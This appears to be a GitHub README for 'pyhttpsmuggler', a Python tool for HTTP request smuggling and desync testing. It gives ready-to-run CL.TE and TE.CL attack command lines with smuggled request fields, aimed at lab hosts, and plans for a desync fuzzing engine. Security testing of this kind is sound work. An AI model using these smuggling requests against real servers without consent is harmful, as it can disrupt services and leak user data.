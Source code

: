 # pyhttpsmuggler
Scripts related to web/request smuggling & general web hacking.
*This project is free to use and modify. The three things I ask of those interested in using/modifying/distributing this project is:
1. Users have the explicit consent from target host servers' maintainers to test for vulnerabilities-- as a successful exploit may disrupt web-services and/or leak sensitive user-data.
2. Any derivative project using any component from this project upholds the open-source philosophy with others in the research & development community.
3. Lastly, I ask (well, it's more of a statement really) that I assume no liability or responsibility for any & all potential consequences of others'actions when using this script on a live server instance.*
## General Information
- The keys for the argument list are colored yellow. The values are purple.
- The request body field is colored such that the purple portion denotes the substring of the request covered by the content-length field. The cyan portion denotes the part of the request to be smuggled. 
## Examples
*Note: passing arguments denoted by pairs of quotations (",') is necessary for request fields which may contain spaces or special charachters*
### CL.TE Vulnerability
```python3 pysmuggle.py --host "your-access-token.web-security-academy.net" --method "POST" --body-length "35" --body-data ""  --smuggled-body-fields "GET /404 HTTP/1.1,X-Ignore: X" --debug "1"```
### TE.CL Vulnerability
```python3 pysmuggle.py --host "your-access-token.web-security-academy.net" --method "POST" --body-length "4" --body-data "5c" 
   --smuggled-body-fields "GPOST / HTTP/1.1,Content-Type: application/x-www-form-urlencoded,Content-Length: 15,,x=1,0," --debug "1"```
## Changelog
### 9/4/2021
- Implemented a WebRequest class to generate arbitrary web requests with malformed fields and/or fuzz around for TE.CL and CL.TE vulnerabilities in web server configurations.
### 9/5/2021
- Implemented a CLI using argparse and the WebRequest class. This introduces robustness and more opportunities for automation since worker threads can easily invoke specially-crafted requests by passing arguments over the CLI under the control of a parent thread or list of exploits to try.
- Updated README with example usage and development logs
# Todo:
## pyhttpsuggler-cli
1. [X] Improve  CLI for sending arbitrary requests from the command line rather than using driver scripts like smuggle.py. Maybe I will implement this in C++ or scapy depending on the advantages each choice offers...
2. [ ] Add fuzzing engine script to automate fuzzing websites for various HTTP request desync attacks
3. [ ] Create a text file with various desync attacks to test on an target webserver and a parser to turn the entries in the file into different requests.
4. [ ] Cleanup the chunk of if/elif/else login in pysmuggler.py:34-94
